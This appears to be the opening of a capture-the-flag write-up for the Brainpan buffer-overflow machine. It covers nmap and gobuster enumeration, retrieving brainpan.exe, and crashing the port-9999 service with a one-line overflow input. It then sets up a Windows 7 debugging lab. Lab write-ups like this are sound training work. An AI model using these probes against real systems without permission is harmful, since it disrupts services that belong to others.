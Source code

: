 # 16 AUG 2021

challenge description :

```
Brainpan is perfect for OSCP practice and has been highly recommended to complete before the exam.
Exploit a buffer overflow vulnerability by analyzing a Windows executable on a Linux machine.

```
# target ip : 10.10.21.61

## Reconnaissance

intial 
----------

$ nmap -sV -v 10.10.21.61 -oN nmap/intial

```
PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)

```

## Enumeration

$ gobuster dir -u "http://10.10.21.61:10000/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o  gobuster.txt

```
/bin                  (Status: 301) [Size: 0] [--> /bin/]
```
---> found brainpan.exe 


$ file brainpan.exe                                                                       
brainpan.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows

let's continue our enumeration

$nc 10.10.21.61 9999 

found a running application if we type any thing it returned wrong pass , how ever when typed 
```python
└─$ python3 -c "print('A'*1000)" | nc 10.10.21.61 9999

```
it crashes and refuse connection next time so let's explore this software !

so we have the application that is running on this port  let's explore it .


Setup our Environment 
----------------------
````
- I have a win7 machine with Immunity debugger pre-installed and a mona.py script plugged in at the libraries of 
the debuuger as we will need it later :) 

the win7 can be considered the target as we are testing locally now ,and my kali machine is the attacker machine . 
you need to know ip of both machines as we will need them alot during our walkthrough 
in my case :
win7 ip : 192.168.1.8  
kali ip : 192.168.1.9
the application is running on port 9999  by default .
````